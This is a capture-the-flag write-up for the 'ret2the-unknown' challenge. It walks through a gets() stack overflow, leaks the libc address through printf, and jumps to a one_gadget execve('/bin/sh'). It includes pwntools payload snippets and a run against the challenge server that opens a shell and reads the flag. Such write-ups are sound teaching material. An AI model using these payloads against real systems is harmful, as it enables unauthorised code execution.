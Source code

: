 # ret2the-unknown

## Initial Exploration

We first run `checksec` to see the protections on the binary.

```bash
$ checksec ret2the-unknown
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

[This](https://www.programmersought.com/article/69684755927/) article goes into more details about what these mean, but essentially most of the protections are disabled which makes an exploit easier.

Like the other challenges in this CTF, there is a source file provided.

```c
--snipped--

    char your_reassuring_and_comforting_we_will_arrive_safely_in_libc[32];

--snipped--

    gets(your_reassuring_and_comforting_we_will_arrive_safely_in_libc);

    puts("phew, good to know. shoot! i forgot!");
    printf("rob said i'd need this to get there: %llx\n", printf);
    puts("good luck!");
```

As the name of the challenge suggests, we need to overwrite the return address on the stack to control the program flow. Since `gets` does not restrict the length of our input, we can use it to write onto the stack.

---
## How the stack works

Let's look at how the stack is typically organised as a quick aside. 

```
Low memory address

| Local Variable N | <-- ESP   -┐ 
|       ...        |            |
| Local Variable 2 |            |
| Local Variable 1 |            |
|      Old EBP     | <-- EBP    |- A stack frame
|  Return Address  |            |
|    Argument 1    |            |
|    Argument 2    |            |
|       ...        |            |
|    Argument N    |           -┘

High memory address
```

This stack frame is 'written' to the stack for every function call. The value in `EBP` stays constant within the function call, while the value in `ESP` can change.

With that knowledge, here's how the stack of this program looks like.

```
|     char[32]     | <-- ESP  
|      Old EBP     | <-- EBP 
|  Return Address  | <-- We need to overwrite this
|       ...        |
```

We can verify that by looking at the stack in gdb.

```
0x00007fffffffdcb0│+0x0000: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"   ← $rsp
0x00007fffffffdcb8│+0x0008: "aaaaaaaaaaaaaaaaaaaaaaaa"
0x00007fffffffdcc0│+0x0010: "aaaaaaaaaaaaaaaa"
0x00007fffffffdcc8│+0x0018: "aaaaaaaa"
0x00007fffffffdcd0│+0x0020: 0x0000000000401200  →  <main+122> cmp eax, 0xee3    ← $rbp
0x00007fffffffdcd8│+0x0028: 0x00007ffff7e14d0a  →  <__libc_start_main+234> mov edi, eax
```
---
## Opening a shell
Controlling the program flow is useless if we can't make use of it. To do that, we need to redirect control flow to functions in libc to open a shell.

Here, we use [one_gadget](https://github.com/david942j/one_gadget) in order to find an address in libc to jump to to open a shell. (Note that different versions of libc have different addresses/constraints)

```bash
$ one_gadget libc-2.28.so 
0x4484f execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x448a3 execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xe5456 execve("/bin/sh", rsp+0x60, environ)
constraints:
  [rsp+0x60] == NULL
```

These addresses are the offset from the base of libc, so we need to find that first. Luckily for us, the program already prints the address of `printf`, a known function in libc.

```c
printf("rob said i'd need this to get there: %llx\n", printf);
```

All we have to do is take this address, subtract the offset of `printf`, and add our one_gadget offset to find the address we need to jump to.

---

## Putting it together

Phew, that was a lot but we're almost there! 

A small problem is that the address of `printf` is leaked _after_ we redirect the flow of the program, but no worries, we can always redirect the program back to the start of main! 

Here's what we need to do:

1. Redirect program to run main again
2. Leak address of `printf`
3. Redirect program to jump to our one_gadget

We'll do this using pwntools. The full code can be found in `solve.py`, but here are the important parts.

```python
loop_payload = b'a' * 32       # Pad char[32] array
loop_payload += p64(0x0)       # Filler rbp value
loop_payload += p64(main_addr) # Loop back to start of main

# some code to parse printf

payload = b'a' * 32
payload += p64(0x0)
payload += p64(one_gadget)     # Open a shell
```
---
## Remote execution

```bash
$ python solve.py REMOTE

REMOTE PROCESS
[+] Opening connection to mc.ax on port 31568: Done
[*] Printf address: 0x7f494d82d560
[*] Libc base: 0x7f494d7d5000
[*] one_gadget: 0x7f494d81984f
[*] Switching to interactive mode

$ ls
flag.txt
run

$ cat flag.txt
flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}
```

`flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}`

---
## Extra notes

If a libc library is provided, be sure to patch your binary! This will help save a lot of pain when running locally vs externally.

I... haven't figured out how to do this yet so I'll just leave a link here and maybe update this next time. `¯\_(ツ)_/¯ `

